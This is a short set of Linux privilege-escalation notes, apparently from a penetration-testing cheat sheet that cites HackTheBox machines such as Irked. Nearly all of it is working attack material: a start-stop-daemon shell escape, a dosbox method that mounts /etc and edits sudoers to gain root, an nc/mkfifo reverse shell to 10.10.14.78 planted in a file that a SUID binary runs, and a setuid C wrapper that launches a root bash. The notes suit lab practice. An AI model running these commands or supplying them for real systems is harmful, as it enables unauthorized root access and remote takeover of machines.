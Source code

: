 ```bash
/usr/sbin/start-stop-daemon -n foo -S -x /bin/sh -- -p

start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
```

### dosbox
+ allows to mount the local file system, so that it can be altered using DOS commands.
+ need graphical interface, not work in the console. notice vnc service/5901

```bash
# local port forwarding, ssh
## local port 5901 to remote 5901
ssh -L 5901:localhost:5901 commander@192.168.120.55

# connect to vnc
vncviewer localhost:5901

# open terminal, and run dosbox
## mount /etc to c
mount c /etc/

## change sudoers, get root;
type user ALL=(ALL) ALL >> sudoers

## or add user to passwd.

```

### viewuser
+ htb-irked, special program.
+ running command as root, check the program with ltrace/strace

```bash
# install lstrace/strace, check the program
lstrace /usr/sbin/viewuser

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.78 9002 >/tmp/f" > /tmp/listusers
```

### setuid
+ C代码root, 通过c语言程序编译生成root身份调用/bin/bash程序，配合提权

```C
#include<stdio.h>
#include<unistd.h>
#include<sys/types.h>

int main()
{
setuid(0);
setgid(0);
system("/bin/bash");
return 0;
}
```
编译并执行
